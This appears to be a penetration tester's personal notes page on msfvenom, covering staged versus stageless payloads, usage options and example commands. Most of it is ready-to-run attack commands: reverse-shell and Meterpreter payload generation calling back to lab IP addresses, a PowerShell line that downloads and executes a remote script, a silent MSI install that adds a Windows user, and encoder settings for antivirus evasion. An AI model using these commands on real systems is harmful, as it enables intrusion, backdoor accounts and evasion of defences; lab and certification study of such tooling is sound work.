```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

MSFVenom is the payload creating cousin of Metasploit. With it, you can create a wide variety of shellcodes, reverse TCP connectors, and much more. [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

## Staged vs. Stageless Payloads

`Staged` payloads create a way for us to send over more components of our attack. When run a staged payload using an exploit module in Metasploit, the payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

`Stageless` payloads do not have a stage. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering. This concept is also very well explained by Rapid 7 in this blog post on [stageless Meterpreter payloads](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/).

## Usage

##### List Payloads 

```shell-session
msfvenom -l payloads
```

##### Options 

| Option                            | Description                                            |
| --------------------------------- | ------------------------------------------------------ |
| -p \<PAYLOAD\>                    | Generate a payload from the list in [[#List Payloads]] |
| LHOST=10.10.14.113 LPORT=443 <br> | Addresses to connect back to                           |
| -f elf                            | Format to generate the payload in                      |
| -o \<FILE\>                       | Output file                                            |

# Anti-Virus Bypass 

* `msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp`
* 
If the program gets closed quickly you can use` msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate`  in MSF console
# Windows 

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1

iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
```

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
msiexec /quiet /qn /i C:\Users\phoebe\exploit.msi
```

## Example commands:

* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta`
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe`
* `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f raw > shell.jsp`
* `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.49.65 lport=443 -f raw`

## Payload Encoders 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

```shell-session
-e x86/shikata_ga_nai
```